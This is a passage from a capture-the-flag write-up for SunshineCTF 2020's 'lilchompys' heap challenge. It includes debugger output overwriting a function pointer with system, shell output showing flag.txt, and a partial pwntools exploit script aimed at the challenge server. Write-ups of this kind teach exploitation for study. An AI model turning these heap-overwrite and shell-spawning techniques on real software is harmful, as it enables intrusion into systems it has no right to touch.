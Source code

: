 Since we don't quite have enough characters to write all the way to submitFuncs we just need to create one more attraction and then we can get the overwrite we need.

```
0x5627ec18b0c0 <submitFuncs>:	0x00007fea2806e3a0	0x00005627ec18894c

gef➤  print &system
$1 = (<text variable, no debug info> *) 0x7fea2806e3a0 <system>
```

Now all that is left is to rename the first variable to ''/bin/sh' then submit our design for a shell!

```
$ 5
The theme park design has been submitted! Let's take a look at the expected park experience.
$ ls
flag.txt
libcageheap.so
lilchompys
$ id
uid=1000(lilchompys) gid=1000(lilchompys) groups=1000(lilchompys)
```

### Afterwards

I may have lucked out in my exploit overall and I think that is a shame for all the hard work that was put in to create this challenge. I think the idea and design is great but user stupid/luck always triumphs. 

I went back a bit and looked into the free function and it looks like there are some checks to see if the next chunk or previous chunk are free and to consolidate them if they are, which crashes our attempt on some post tests. By sending the 0xffff0, apparently we made it think that both chunks are in use and to not do any other checks.

### Code

```python
from pwn import*

DEBUG = 1
off2 = 0x7f40

if DEBUG == 0:
    p = process('./lilchompys')
    offset = 0x5000
else:
    p = remote("chal.2020.sunshinectf.org",20003)
    offset = 0x2000 #7-2 = 5

p.sendline('lilChompy2020!\x00\x00' + p64(0xffff0) + p64(0xffff0) +p64(0xfffff) + p64(0xffff0))

def send(a,b):
    p.sendlineafter(a,str(b),timeout=1)

def view():
    send("5) S", 1)

def add(t, name):
    send("5) Submit", 2)
    send("8) Alligator", t)
    send(":\n", name)

def demolish(lot):
    send("5) S", 3)
    send("ish:", lot)

```